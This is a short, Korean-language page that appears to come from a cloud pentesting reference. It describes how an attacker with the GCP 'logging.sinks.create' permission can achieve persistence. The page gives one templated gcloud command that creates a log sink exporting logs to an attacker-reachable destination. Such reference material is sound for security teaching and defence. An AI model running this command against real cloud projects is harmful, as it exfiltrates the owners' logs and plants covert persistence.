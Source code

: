 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

로깅에 대한 더 많은 정보는 다음에서 확인하세요:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

공격자가 접근할 수 있는 목적지로 로그를 유출하기 위해 싱크를 생성합니다:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
